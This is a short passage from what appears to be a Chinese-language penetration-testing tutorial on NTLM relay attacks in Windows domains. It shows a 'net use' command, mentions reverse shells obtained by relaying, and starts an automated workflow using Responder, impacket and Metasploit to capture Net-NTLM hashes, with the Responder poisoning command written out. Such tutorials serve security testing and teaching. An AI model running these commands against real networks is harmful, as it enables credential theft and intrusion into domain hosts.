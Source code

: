 ```bash
net use \\al1ex
```

[![](assets/1701222524-55d624e0a99da004429ed1fc66bef054.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144716-f80f1c0e-8db9-1.png)  
Step 7：之后可以看到对每台 PC 进行了转发测试，若成功则反弹 shell，总体来说效果不是很好，耗时太长了，我也不想等了。。。

[![](assets/1701222524-a9c05ca7777ae629ddd3ea074bfabd4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144731-012722e6-8dba-1.png)

##### 自动化利用

在实战中我们可以使用 Responder + impacket + MSF 来实现获取 Net-NTLM hash，并通过 ntlm 中继获得域内普通用户的 msf shell，具体步骤如下：  
Step 1：开启 Responder 监听

```bash
responder -I eth0 -r -d -w
```
